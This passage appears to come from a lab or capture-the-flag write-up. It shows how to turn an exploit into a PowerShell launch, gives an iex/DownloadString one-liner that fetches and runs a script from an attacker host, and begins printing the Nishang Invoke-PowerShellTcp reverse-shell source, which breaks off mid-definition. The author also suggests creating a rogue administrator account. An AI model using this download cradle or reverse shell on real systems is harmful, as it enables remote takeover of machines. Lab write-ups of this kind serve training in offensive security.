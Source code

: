 So we can change the first part to `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

And we will run a powershell. And we can send commands like 

`iex(New-Object Net.WebClient).DownloadString('http://10.10.14.21:80/PowerShellScript.ps1')`

Here we can upload and execute a Ps1 script directly from the exploit. This can be a reverse shell for example. Or maybe something to create a new administrator account to access.

In this instance I just sent a reverse TCP powershell script. I just used a Nishang script.

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
```